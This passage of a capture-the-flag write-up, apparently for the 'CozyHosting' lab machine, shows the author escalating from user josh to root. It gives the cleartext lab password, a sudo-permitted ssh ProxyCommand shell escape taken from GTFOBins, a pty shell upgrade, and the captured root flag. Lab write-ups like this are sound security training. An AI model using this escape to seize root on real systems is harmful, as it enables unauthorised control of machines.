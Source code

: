 Success! Now that we have the user flag, we continue to wait for the admin hash to crack.

### Priv Esc

Using `sudo -l` we can check our options to escalate from the user `"josh"`:

```
josh@cozyhosting:~$ sudo -l
sudo -l
[sudo] password for josh: manchesterunited
Matching Defaults entries for josh on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User josh may run the following commands on localhost:
(root) /usr/bin/ssh *
```

It appears we can run ssh as root.

After many hours, a hint later, and doing more research I found something. Using the GTFObins.github.io website, if I want to spawn an interactive shell through the ProxyCommand option, I can do that.

I want to do that, so I use the command provided on the website:

```
josh@cozyhosting:~$ ssh -o ProxyCommand=';sh 0<&2 1>&2' x
ssh -o ProxyCommand=';sh 0<&2 1>&2' x
$ id
id
uid=1003(josh) gid=1003(josh) groups=1003(josh
```

Seems like I am missing something. I was not thinking and typed `ssh` instead of `sudo`. I also was missing the directory that `"josh"` has root access to use `ssh` through. Let's change it up:

```
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
[sudo] password for josh: manchesterunited
# id
id
uid=0(root) gid=0(root) groups=0(root)
# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@cozyhosting:/home/josh#
```

Success! Let's find the final flag:

```
root@cozyhosting:/home/josh# cd /root
cd /root
root@cozyhosting:~# ls
ls
root.txt
root@cozyhosting:~# cat root.txt
cat root.txt
148ad8c88d9154952e4957e6c0454ffc
```

